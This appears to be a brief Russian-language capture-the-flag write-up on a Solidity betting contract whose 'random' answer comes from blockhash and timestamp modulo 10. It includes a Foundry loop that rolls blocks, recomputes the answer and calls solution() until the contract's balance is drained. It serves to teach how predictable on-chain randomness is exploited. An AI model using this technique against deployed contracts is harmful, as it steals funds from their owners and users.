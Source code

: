 ### Сразу замечаем что ответ может быть от 0 до 9. То есть мы можем в тупую взять число 1 например и просто ждать пока не совпадет с ответом. 
```
function setGuess(uint8 n) public payable {
        require(player == address(0));
        require(msg.value == 0.01 ether);
        player = msg.sender;
        guess = n;
        nextBlockNumber = block.number + 1;
    }

    function solution() public {
        require(msg.sender == player, "Wrong user");
        require(block.number > nextBlockNumber, "Need to call at next block");

        uint256 answer = uint256(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))) % 10;

        player = address(0);
        if (guess == answer) {
            payable(msg.sender).transfer(address(this).balance);
        }
    }
```

### Так и сделаем. Будем генерить ответ пока не обнулим баланс казино
```
while (address(instance).balance != 0) {
    vm.roll(block.number + 1);
    vm.warp(block.timestamp + 15);

    uint256 answer = uint256(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))) % 10;
        if (answer == guess) instance.solution();
    }
```